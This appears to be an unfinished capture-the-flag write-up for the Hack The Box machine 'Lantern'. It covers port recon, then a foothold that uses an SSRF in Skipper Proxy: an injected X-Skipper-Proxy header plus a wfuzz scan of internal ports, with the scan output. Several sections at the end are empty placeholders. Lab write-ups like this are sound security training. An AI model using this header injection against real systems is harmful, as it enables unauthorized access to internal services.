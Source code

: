 ## Linux Hard Machine Lantern

- [+] :	Target IP
   >>	10.129.235.127
   
   
## Recon

|PORT|     |STATE| |SERVICE|
|22/tcp|   |open|  |ssh|
|80/tcp|  |open|  |http|
|3000/tcp| |open|  |ppp|

>> We can Post a pdf or whatever if we modify the name of the file as .pdf 

- [+] :	VHOST Enum 
   >>	0 subdomain

- [+] :	Code source recon
   >>	author = Devcrud

- [+] :	Webservers
   >>	port 80 webserver: Skipper Proxy (Vulnerable)
   >>	port 3000 webserver: kestrel

------------------------
## Foothold 
port 80 webserver is vulnerable to SSRF https://www.exploit-db.com/exploits/51111


Proof Of Concept:

1- Add header "X-Skipper-Proxy"  to your request
2- Add the aws metadata to the path (no need to do this for our scenario)

X.Skipper-Proxy: http://localhost:§payload_intruder§

or wfuzz it for more speed of response 
```bash
wfuzz --hc 503 -c -z file,"/usr/share/wordlists/seclists/Fuzzing/4-digits-0000-9999.txt" -t 100  -H "X-Skipper-Proxy: http://localhost:FUZZ" http://lantern.htb/
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://lantern.htb/
Total requests: 10000

=====================================================================
ID           Response   Lines    Word       Chars       Payload        
=====================================================================

000000023:   500        1 L      3 W        22 Ch       "0022"         
000000081:   200        224 L    836 W      12049 Ch    "0080"         
000003001:   200        57 L     117 W      2854 Ch     "3000"         
000005001:   200        49 L     123 W      1669 Ch     "5000"         
000008001:   200        224 L    836 W      12049 Ch    "8000"  
```
so we can check it manually in burpsuite 

port 8000 and 80 seems to be our main lantern.htb page , port 3000 and 5000 and the .net core web app 

So Im thinking that i could read the dlls through the port 5000 , since its not exposed to the internet (in the scenario) so it the local port of the webapp

It must have some intersting dll that I could decompile 


- [+] :	
   >>	
   

- [+] :	Target IP
   >>	
   

- [+] :	Target IP
   >>	
   

- [+] :	Target IP
   >>	
   

- [+] :	Target IP
   >>	
   

